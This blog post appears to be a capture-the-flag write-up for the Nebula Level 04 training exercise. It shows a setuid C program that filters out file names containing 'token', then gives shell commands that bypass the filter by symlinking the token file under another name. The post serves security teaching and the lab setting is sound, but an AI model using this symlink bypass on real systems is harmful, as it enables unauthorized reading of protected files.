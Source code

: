 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 04"
date: 2014-01-10 20:43:48 +0800
comments: true
categories: Security, Exercises, Nebula
---
```


### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04 . Files for this level can be found in /home/flag04.

<!-- more -->

### Solution

Source code for /home/flag04/flag04 is 

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

This one is easy, just creating a soft link in the home directory of user *level04*, and making it readable for user *flag03* could bypass the check of the above code, of cause the name of the sofe link could not be *token* :-P.

``` bash
$ ln -s /home/flag04/token /home/level04/aa
$ chmod a+rx /home/level04
$ /home/flag04/flag04 /home/level04/aa
```

<!-- 06508b5e-8909-4f38-b630-fdb148a848a2 -->

And it works!

